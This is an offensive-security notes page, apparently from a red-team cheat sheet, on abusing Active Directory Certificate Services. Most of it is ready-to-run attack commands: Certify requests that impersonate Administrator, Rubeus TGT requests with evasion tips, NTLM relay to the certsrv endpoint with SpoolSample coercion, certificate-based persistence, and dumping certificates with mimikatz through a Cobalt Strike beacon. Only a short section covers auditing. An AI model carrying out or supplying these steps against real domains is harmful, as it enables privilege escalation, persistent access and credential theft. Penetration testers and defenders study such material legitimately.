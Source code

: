 ```yaml
---
title: Active Directory Certificate Services
category: Active Directory
order: 8
---
```


Active Directory Certificate Services (AD CS) is a server role that allows you to build a public key infrastructure (PKI). Which can provide public key cryptography, digital certificates and digital signature capabilities.

Some practical applicatios include Secure/Multipurpose Internet Mail Extensions(S/MIME), secure wireless networks, VPNs, IPSec, Encrypting File System (EFS), smart card logon and SSL/TLS.

If a correct implmentation is given, can improve the security of an organisation by:

* Confidentiality through encryption.
* Integrity through digital signatures.
* Authentication by associating certificate keys with computers, users or devices accounts on networks.

Misconfiguration of the AD CS can lead to domain privilege escalations or persistence.

# Enumerating Certificate Authorities

To find AD CS Certificate Authorities (CA) in domain we can run `certify` with `cas` as parameter.

* [https://github.com/GhostPack/Certify](https://github.com/GhostPack/Certify)

```powershell
.\Certify.exe cas
```
We will see in te output the `Root CAs` and the `Enrollment CAs`, in addition to this we will see the certificate chain and the list of certificate templates for each CA, and some information about which principals are allowed to manage them.

# Misconfigured Certificate Templates

`Certify` also allow us to find vulnerable CAs.

```powershell
.\Certify.exe find /vulnerable
```

* `ENROLLEE_SUPPLIES_SUBJECT` allows the certificate requestor to provide a Subject Alternative Name (SAN).
* `Client Authentication` means that the certificate can be used for authentication.

If a pincipal that you control had `WriteOwner`, `WriteDacl`, `WriteProperty`, `Owner` or `Enrollment Rights` and the CA is configured with `ENROLLEE_SUPPLIES_SUBJECT` and `Client Authentication`, we will be able to request a certificate for any user of the domain an use it to autenticate to the domain.

```powershell
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:TemplateName /altname:Administrator
```

Copy the whole certificate including the private key and save it to `cert.pem`. Then with `openssl` we can convert it to `pfx` format.

```
$ openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
Enter Export Password:
Verifying - Enter Export Password:
```

> **Note** It is recommended to enter a password.

Convert `cert.pfx` into base64.

```
cat cert.pfx | base64 -w 0
```
And finally we can use `Rubeus` to request a TGT.

```
.\Rubeus asktgt /user:Administrator /certificate:<B64-CERT> /password:certificate-password /enctype:aes256 /nowrap
```

> **OPSEC Alert**: Use `/enctype:aes256` parameter to use AES256 and avoid RC4.

# NTLM Relaying to ADCS HTTP Endpoints

Active Directory Certificate Service support HTTP enrolment methods and even inlcudes a GUI. The endpoint is often found in:

```
https://ip-addr/certsrv
```
By default supports NTLM and Negotiate authentication methods so these endpoints are vulnerable to NTLM relay attacks. A common abuse method is to force a DC to authenticate to an attacker controlled location, relay the request to the CA and obtain the certificate for that DC, then use it to obtain a TGT. 

> **Note**: We can not relay the authentication back to the original machine, which means we can not PrintSpooler the DC if it contains the CA.

```
ntlmrelayx.py -t http://ip-addr/certsrv/certfnsh.asp -smb2support --adcs --no-http-server
```
Use one of the remote authentication methods to force a connection to our compromised server.

```powershell
.\SpoolSample.exe 10.10.10.12 10.10.10.13
```

On the output of `ntlmrelay` we will see the base64 certificate of the machine account. After obtaining the TGT we can abuse `S4U2self` to obtain a TGS of CIFS service.

# User Persistence

We can craft a certificate for later use if managerial approval is not required for certificate requests.

```
.\Certify.exe find /clientauth
.\Certify.exe find /clientauth /ca:dc.corp.local\ca-1
```

This will show every certificat template that has a suitable Extended Key Usage (EKU) for client authentication. We can request a certificate for our use with:

```
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:User
```
This certificate will allow us to request a TGT with Rubeus, by default is valid for a year and will continue working even if the user changes their password.

# Computer Persistence

Similar to User, machines are a special type of user in AD and can have their own certificates issued. The default template for computers is called `Machines`.

```
.\Certify.exe request /ca:dc.corp.local\ca-1 /template:Machine /machine
```

> **Note**: The `/machine` parameters tells to Certify to auto-elevate to SYSTEM and assume the identity of the machine account.

# AD CS Auditing

AD CS logging is not enabled by default, so it is unsurprisingly common for defenders to be blind to this activity in their domain.

`Audit Certification Services` must also be enalbed via GPO to `Success` or `Failure` depending on the tolerance of the organization.


# Dumping Certificates

To enumerate certificates use `Seatbelt`.

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe Certificates
```

> **Note**: Ensure that the certificate is **used for authentication**.

We can dump certificates with mimikatz.

* For users:

```
beacon> mimikatz crypto::certificates /export
```

* For machines:

```
beacon> mimikatz !crypto::certificates /systemstore:local_machine /export
```

> **NOTE**: Mimikatz always export certificates with `mimikatz` as password.

Download the file and sync files from cobalt strike to your local machine.

```
beacon> download C:\Users\user\CURRENT_USER_My_0_User Example.pfx
```

> **Note** : Go to `View -> Downloads` to sync files.

Encode in base64 the `.pfx` file.

```
cat CURRENT_USER_My_0_User\ Example.pfx | base64 -w0
```
And finally use it to request a TGT.
